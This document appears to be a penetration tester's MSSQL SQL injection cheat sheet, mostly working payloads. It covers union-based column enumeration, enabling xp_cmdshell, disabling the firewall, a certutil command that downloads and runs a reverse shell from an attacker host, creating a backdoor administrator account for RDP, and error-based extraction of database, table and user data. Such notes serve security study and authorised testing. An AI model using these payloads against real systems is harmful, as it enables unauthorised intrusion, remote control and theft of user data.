 #### SQLi GUIDE
[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)
[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)
---
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year.
Let's try to find out the number of columns using "order by" clause:
```sql
' order by 1--
```
no error message
```sql
' order by 5--
```
error message
```sql
' order by 4--
```
error message
```sql
' order by 3--
```
error message
```sql
' order by 2--
```
no error message
So as of now we know that 2 is the last column which worked, let us prepare the union select statement
```sql
' union select 1,2--
```
```sql
' union select null,null--
```
```sql
' union select '1111',null--
```
```sql
' union select null,'2222'--
```
```sql
' union select user,null--
```
```sql
' union select @@version,null--
```
```sql
' union select db_name(),null --
```
#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```
This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.
```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```
Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```
```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```
```sql
' union select user,null; RECONFIGURE; --
```
Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```
#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]
[[4._File Transfers]]
[[Python#Server]]
```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```
[[1._rlwrap]]
```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```
#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```
Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```
Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```
---
#### Error Based attack
```sql
1 AND 1=CONVERT(INT,@@version)--
```
In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```
Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```
Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```
```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```
Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```
Extract table names (replace N with a number starting from 1):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```
To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
To extract data, first count the entries in the table (replace table1 with appropriate table name):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```
Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```
Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```
Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```
See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```
Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```
